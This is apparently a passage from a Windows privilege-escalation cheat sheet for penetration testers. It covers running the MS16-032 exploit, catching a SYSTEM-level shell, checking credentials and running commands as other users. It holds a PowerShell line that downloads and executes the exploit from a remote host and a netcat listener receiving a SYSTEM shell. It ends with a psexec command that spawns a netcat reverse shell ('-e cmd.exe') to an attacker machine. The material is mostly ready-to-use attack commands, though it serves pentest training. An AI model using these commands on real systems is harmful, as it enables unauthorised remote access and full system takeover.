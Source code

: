 ```powershell
PS C:\> IEX(New-Object Net.Webclient).downloadString('http://10.10.10.10/Invoke-MS16-032.ps1')
```

Or if you wanted to upload the exploit, you can always run it like this:

```powershell
PS C:\> powershell -ExecutionPolicy ByPass -command "& { . C:\Users\Public\Invoke-MS16-032.ps1; Invoke-MS16-032 }"
```

On our Kali machine we create the reverse shell and ... BOOM! Root dance.

```
root@kali:~# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.10.11] from (UNKNOWN) [10.10.10.10] 49182

PS C:\Users\jimmy^> whoami
nt authority\system
```

## Windows Run As

Prior to successfully performing a Windows run as, we of course need a valid windows username and password. Here is a oneliner powershell script to verify a username / password is valid on the local system:

Requires .Net 3.5

```cmd
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "&{$username = '<username here>'; $password = '<password here>'; $computer = $env:COMPUTERNAME; Add-Type -AssemblyName System.DirectoryServices.AccountManagement; $obj = New-Object System.DirectoryServices.AccountManagement.PrincipalContext('machine',$computer); $obj.ValidateCredentials($username, $password); }"
```

Requires .Net 2.0

```cmd
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "&{$username = '<username here>'; $password = '<password here>'; $securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword; Start-Process -FilePath C:\Windows\System32\calc.exe -NoNewWindow -Credential $credential; }"
```

Switching users in linux is trival with the SU command. However, an equivalent command does not exist in Windows. Here are 3 ways to run a command as a different user in Windows.

Sysinternals psexec is a handy tool for running a command on a remote or local server as a specific user, given you have thier username and password. The following example creates a reverse shell from a windows server to our Kali box using netcat for Windows and Psexec (on a 64 bit system).

```cmd
 C:\>psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe" 
 PsExec v2.2 - Execute processes remotely
 Copyright (C) 2001-2016 Mark Russinovich
 Sysinternals - www.sysinternals.com
```
